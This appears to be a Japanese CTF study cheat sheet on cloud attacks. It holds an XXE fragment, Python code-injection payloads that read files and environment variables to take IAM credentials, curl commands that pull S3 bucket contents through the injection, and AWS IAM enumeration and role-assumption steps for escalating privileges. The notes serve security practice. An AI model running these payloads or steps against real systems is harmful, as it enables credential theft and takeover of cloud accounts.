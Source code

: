 - \<stockCheck\>\<productId\>\&foo;\</productId\>\<storeId\>1\</storeId\>
- \</stockCheck\>
### バージョニング
- aws lambda list-versions-by-function --function-name db-backup --profile \<profile\>


### OS command injection
- JSONでデータを入れるとさばいてくれるAPIに対して
    - {"input":"__import__('os').popen('ls').read()"}
    - {"input":"__import__('os').popen('cat さっき見つけたファイル').read()"}
    - {"input":"__import__('os').popen('env').read()"} #IAMとる
    - curl -s -X POST -H "Content-Type: application/json" -d "{\"input\":\"[item['Key'] for item in __import__('boto3').client('s3').list_objects(Bucket='nullcon-s3bucket-flag4')['Contents']]\"}" http://\<ip-address\>/calc
    - curl -s -X POST -H "Content-Type: application/json" -d "{\"input\":\"__import__('boto3').client('s3').get_object(Bucket='nullcon-s3bucket-flag4',Key='↑の結果')['Body'].read()\"}" http://\<ip-address\>/calc

## IAM
- AKIA~ から始まる文字列はアクセスキー
    - javascriptに埋め込んであったり
- 探索の流れ
    - 登録
        - aws configure (--profile hoge)
    - アクセスキーに紐づくユーザー名確認
        - aws sts get-caller-identity --profile hoge
    - アタッチされてるポリシー
        - aws iam list-attached-user-policies --user-name hoge --profile hoge
    - カスタム管理ポリシーのバージョン確認
        - aws iam get-policy --policy-arn arn::hogehoge --profile hoge
    - 指定バージョンのカスタム管理ポリシー確認
        - aws iam get-policy-version --policy-arn arn:hogehoge --version-id v2とか --profile hoge
    - グループ名確認
        - aws iam list-groups-for-user --user-name hoge
    - グループにアタッチされているインラインポリシー
        - aws iam ge-group-policy --group-name hoge --policy-name hoge --query 'PolicyDocument' --profile hoge
    - ロール列挙
        - aws iam list-roles
        - Actionにsts:AssumeRole, Principalに＊があるものがあると嬉しい
        - それを使うか、それを使えるIAMロールを作る
        - https://scgajge12.hatenablog.com/entry/ctf_cloud_2022
            - aws iam create-role --role-name hoge --assume-role-policy-document file://hoge.json
        - STSから一時クレデンシャル発行
            - aws sts assume-role --role-arn arn:hoge --role-session-name hoge
        - クレデンシャルをセットして使う


### ロールをCLIで使うとき
- aws_access_key_id、aws_secret_access_key、aws_session_tokenの3つを要設定
- aws config で設定するリージョンは同一にすること
- aws sts get-caller-identity --profile ec2_role
